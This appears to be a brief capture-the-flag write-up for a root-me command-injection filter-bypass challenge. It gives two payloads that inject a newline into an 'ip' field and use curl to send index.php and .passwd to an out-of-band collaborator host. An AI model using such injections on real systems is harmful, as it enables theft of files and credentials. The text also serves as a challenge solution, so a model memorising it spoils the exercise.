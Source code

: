 # Command injection: filter bypass

[root-me challenge: Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass): Find a vulnerability in this service and exploit it. Some protections were added. The flag is in the `index.php` file.

----

Either use Burp Collaborator or [one of its alternatives](red-testlab:docs/webapp/oast-alt):

```text
ip=127.0.0.1+%0A+curl+--data+"@index.php"+jobc0c724o9snp1oq21rh50ex53wrnfc.oastify.com
```

leading to:

```text
ip=127.0.0.1+%0A+curl+-X+POST+--data+"@.passwd"+jobc0c724o9snp1oq21rh50ex53wrnfc.oastify.com
```




